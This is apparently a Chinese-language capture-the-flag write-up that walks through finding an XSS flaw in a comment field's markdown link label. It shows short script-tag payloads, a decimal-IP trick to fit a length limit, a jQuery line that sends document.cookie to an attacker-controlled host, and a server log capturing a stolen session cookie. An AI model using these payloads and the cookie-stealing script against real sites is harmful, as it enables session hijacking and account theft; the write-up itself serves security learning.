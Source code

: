 用这几个字典里的标准注入语句和xss代码对 GET view=?和 POST comment=?这两个参数过了一遍，没发现任何xss或者注入，于是我们决定对comment这个地方再仔细看看。

comment参数似乎过滤了不少东西，比如去掉了所有引号，转义了全部html特殊字符。但是似乎comment支持markdown语言里的斜体，粗体和链接标签，然后我们用burp intruder的xss测试在下面几个输入里面测试:

```
*test*   
*test*   
<test>   

```

果然成功了，在markdown链接标签的链接名称的地方存在XSS:

后续测试发现链接名称最长只能用30字符，翻了翻OWASP的XSS cheat sheet，

https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet

最短的是这个:

```
<SCRIPT SRC=//ha.ckers.org/.j>   

```

在Kali中，新建个文件 .j，里面放点偷cookie的js:

```
$.get('http://192.168.16.101?cookie='+document.cookie);  

```

然后在同目录下用python开个http服务器:

python ­-m SimpleHTTPServer 80

发送XSS payload`[<SCRIPT SRC=//192.168.16.101/.j>][1]`

然后坐等目标上钩...  
.  
.  
.  
等了这么久怎么还没有?  
原来是192.168.16.101这个ip太长了，payload被截断了……  
再仔细想想，好像很多浏览器支持十进制IP的,于是我们的payload变成了:

```
[<script src=//3232239717/.j>][1]   

```

好吧，其实还是超过了30位，不过比赛的时候这个长度被改成了75位所以无所谓了。

发送这个payload后，过了一会儿在控制台里出现了Python HTTP Server的日志:

```
172.16.1.80 ­ ­ [20/Feb/2014 16:11:07] "GET /.j HTTP/1.1" 200 ­   
172.16.1.80 ­ ­ [20/Feb/2014 16:11:12] "GET   
/?cookie=PHPSESSID=pm5qdd1636bp8o1fs92smvi916;%20vip=0 HTTP/1.1" 301

```
